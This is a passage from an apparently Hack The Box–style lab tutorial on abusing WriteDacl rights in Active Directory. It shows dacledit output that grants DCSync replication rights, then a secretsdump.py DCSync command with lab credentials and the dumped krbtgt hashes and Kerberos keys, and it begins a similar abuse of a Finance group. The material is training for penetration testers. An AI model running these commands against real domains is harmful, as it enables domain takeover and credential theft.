 ```shell
[*]     Flags                     : ACE_OBJECT_TYPE_PRESENT
[*]     Object type (GUID)        : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[48] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE
[*]     Access mask               : WriteDACL (0x40000)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
```

Once we edit the `DACL` for the Domain, we can perform `DCSync`:

# Attempting DCSync after DACL Modification

```shell-session
anas21@htb[/htb]$ secretsdump.py -just-dc-user krbtgt inlanefreight.local/luna:Moon123@10.129.205.81

Impacket v0.10.1.dev1+20230330.124621.5026d261 - Copyright 2022 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:dafbbaba2fef3addbba5b4fedfc38dab:::
[*] Kerberos keys grabbed
krbtgt:aes256-cts-hmac-sha1-96:88083fd1b5ea038d4f1e89719b98315839d68f7f398963df5b5adea69fb1dbda
krbtgt:aes128-cts-hmac-sha1-96:4075cb5503450cb3e05d4321891c923e
krbtgt:des-cbc-md5:08319dfd4a6891c7
[*] Cleaning up...
```

---
----
# Abusing other Objects with WriteDacl

If we encounter some other objects such as a group or a user, we can assign `FullControl` over the object and abuse these access rights accordingly. Let us take as an example the `Finance group` over which `Luna` has `WriteDacl`. We will have to use `Luna`'s privileges to assign `FullControl` and then `add` a user to the group to abuse this privilege.

#### Querying Luna's DACLs over the Finance Group

```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal luna -target "Finance" -dc-ip 10.129.205.81 inlanefreight.local/luna:Moon123

Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-4618)
[*]   ACE[20] info                
[*]     ACE Type                  : ACCESS_ALLOWED_ACE
[*]     ACE flags                 : CONTAINER_INHERIT_ACE, INHERITED_ACE
[*]     Access mask               : WriteDACL (0x40000)
[*]     Trustee (SID)             : luna (S-1-5-21-1267651629-1192007096-1618970724-4618)
```
